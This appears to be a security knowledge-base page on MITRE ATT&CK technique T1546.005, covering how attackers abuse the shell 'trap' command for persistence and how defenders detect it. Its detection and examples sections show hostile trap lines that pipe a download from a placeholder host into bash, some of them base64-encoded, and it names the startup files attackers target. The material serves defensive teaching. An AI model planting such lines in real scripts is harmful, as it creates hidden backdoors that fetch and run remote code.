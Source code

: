 ```yaml
---
description: Trap [T1546.005]
icon: lock
---
```


# Trap

## Information

- Name: Trap
- ID: T1546.005
- Tactics: [TA0004](../TA0004/TA0004.md), [TA0003](../TA0003/TA0003.md)
- Technique: [T1546](T1546.md)

## Introduction

Trap ([T1546.005](https://attack.mitre.org/techniques/T1546/005/)) is a sub-technique under the MITRE ATT\&CK framework categorized within persistence mechanisms. Adversaries leverage the Unix/Linux `trap` command to execute malicious scripts or commands when shell scripts receive signals or exit events. This allows attackers to maintain persistence on compromised systems by embedding malicious commands within legitimate shell scripts, ensuring repeated execution without direct user intervention.

## Deep Dive Into Technique

The Unix/Linux `trap` command is a built-in shell command used to define and execute actions upon receiving specific signals or upon script termination. Attackers exploit this feature to embed malicious commands or scripts within legitimate shell scripts, resulting in persistent execution each time the script terminates or receives a predetermined signal.

Technical details include:

- **Signal Handling:**\
  The `trap` command can intercept various signals, such as:
  - `EXIT` (executed when a script exits)
  - `INT` (interrupt from keyboard, typically Ctrl+C)
  - `TERM` (termination signal)
  - `HUP` (hangup signal, typically terminal closure or logout)
- **Persistence Mechanism:**\
   Attackers insert malicious commands into legitimate scripts or configuration files using the syntax:

  ```bash
  trap '<malicious_command_or_script>' EXIT
  ```

  This ensures that whenever the script exits, intentionally or unintentionally, the malicious command executes.

- **Obfuscation Techniques:**\
  Adversaries often obfuscate trap commands to evade detection by:
  - Encoding commands with base64 or hex encoding.
  - Embedding commands within complex script logic or conditional statements.
  - Leveraging environment variables to hide malicious payloads.
- **Commonly Targeted Files and Scripts:**\
  Attackers frequently target scripts executed regularly or at system startup, such as:
  - `/etc/profile`
  - `/etc/bashrc`
  - User-specific scripts (`~/.bashrc`, `~/.bash_profile`)
  - System-wide scheduled scripts or cron jobs

## When this Technique is Usually Used

This technique predominantly appears in the persistence phase of the cyber kill chain, ensuring that attackers maintain access and control over compromised systems. Common scenarios include:

- **Long-term Persistence:**\
  After initial compromise, attackers embed trap commands into scripts executed regularly or at system startup, ensuring continuous access.
- **Privilege Escalation and Lateral Movement:**\
  Attackers may insert malicious trap commands into scripts executed by higher-privileged users or automated processes, facilitating privilege escalation or lateral movement across systems.
- **Stealthy Backdoor Implementation:**\
  Attackers embed trap commands to quietly execute backdoor scripts or commands upon user logout or script termination, minimizing suspicion and detection risks.
- **Post-Exploitation Stage:**\
  After initial access and reconnaissance, attackers leverage trap commands to establish persistent footholds, allowing repeated access for further exploitation, data exfiltration, or lateral movement.

## How this Technique is Usually Detected

Detection of malicious trap commands involves multiple approaches, including host-based monitoring, behavioral analysis, and signature-based detection. Common detection methods include:

- **File Integrity Monitoring (FIM):**\
  Tools like OSSEC, Tripwire, or Samhain detect unauthorized modifications to critical system scripts and configuration files.
- **Endpoint Detection and Response (EDR) Solutions:**\
  Advanced EDR tools (CrowdStrike Falcon, SentinelOne, Carbon Black) identify suspicious script behavior, unusual command executions, and anomalous trap commands.
- **Audit Logs and Command History Analysis:**\
  Regularly auditing user command histories (`~/.bash_history`) and system logs (`/var/log/auth.log`, `/var/log/syslog`) can reveal unauthorized edits and execution of trap commands.
- **Behavioral Analysis and Anomaly Detection:**\
  Monitoring tools or SIEM solutions (Splunk, ELK stack) detect anomalous script behaviors, unexpected executions, and unusual signal handling patterns.
- **Specific IoCs (Indicators of Compromise):**

  - Unusual trap commands embedded in scripts:

    ```bash
    trap 'curl http://malicious.example.com/script.sh | bash' EXIT
    ```

  - Base64-encoded commands within trap statements:

    ```bash
    trap 'echo d2dldCBodHRwOi8vbWFsaWNpb3VzLmV4YW1wbGUuY29tL3NjcmlwdC5zaCAtTy0gfCBiYXNoCg== | base64 -d | bash' EXIT
    ```

  - Unusual network connections initiated by scripts upon termination.

## Why it is Important to Detect This Technique

Detecting malicious use of the trap command is critical due to several significant impacts:

- **Persistent Unauthorized Access:**\
  Attackers maintain long-term footholds, enabling repeated unauthorized access, data exfiltration, and further exploitation.
- **Privilege Escalation Potential:**\
  Malicious trap commands embedded in scripts executed by privileged accounts can facilitate unauthorized privilege escalation.
- **Stealth and Evasion:**\
  Due to the subtlety and built-in nature of the trap command, attackers can evade traditional detection mechanisms, prolonging dwell time and increasing damage potential.
- **Increased Risk of Data Loss and Breaches:**\
  Persistent backdoors via trap commands facilitate continuous data exfiltration, intellectual property theft, and sensitive information leakage.
- **Operational Disruption and System Stability:**\
  Malicious commands executed via trap mechanisms can destabilize systems, disrupt operations, or cause unintended outages.

Early detection ensures timely response, reduces attacker dwell time, and minimizes potential damage to systems, data, and organizational reputation.

## Examples

Real-world examples and scenarios involving the malicious use of the trap command include:

- **Linux Malware Campaigns (HiddenWasp Malware):**
  - Attackers inserted trap commands into legitimate scripts to execute malicious payloads upon script termination.
  - Malicious scripts downloaded additional payloads and established persistent backdoor connections.
  - Impact: Persistent unauthorized access, data exfiltration, and lateral movement across compromised environments.
- **Cryptomining Attacks via Trap Commands:**
  - Attackers embedded cryptomining scripts into user shell profiles (`~/.bashrc`) using trap commands to ensure repeated execution upon session termination.
  - Malicious scripts executed cryptomining binaries, causing high CPU utilization and performance degradation.
  - Impact: Resource exhaustion, reduced system performance, increased operational costs.
- **Advanced Persistent Threat (APT) Campaigns:**
  - Nation-state actors leveraged trap commands within system-wide profile scripts (`/etc/profile`) to execute stealthy backdoor payloads upon user logout or system reboot.
  - Attackers maintained long-term persistence, enabling espionage, sensitive data exfiltration, and lateral movement.
  - Impact: Compromise of sensitive data, intellectual property theft, and prolonged attacker dwell time.
- **Obfuscated Trap Command in Real-world Incident:**

  - Attackers inserted base64-encoded commands within trap statements to evade detection:

    ```bash
    trap 'echo Y3VybCBodHRwOi8vbWFsaWNpb3VzLmNvbS9iYWNrZG9vci5zaCB8IGJhc2gK | base64 -d | bash' EXIT
    ```

  - Malicious scripts downloaded and executed additional backdoors, allowing attackers persistent access and control.
  - Impact: Persistent backdoor establishment, unauthorized access, and operational disruption.

These examples underline the importance of vigilance, proactive monitoring, and effective detection mechanisms to mitigate risks associated with malicious trap command usage.
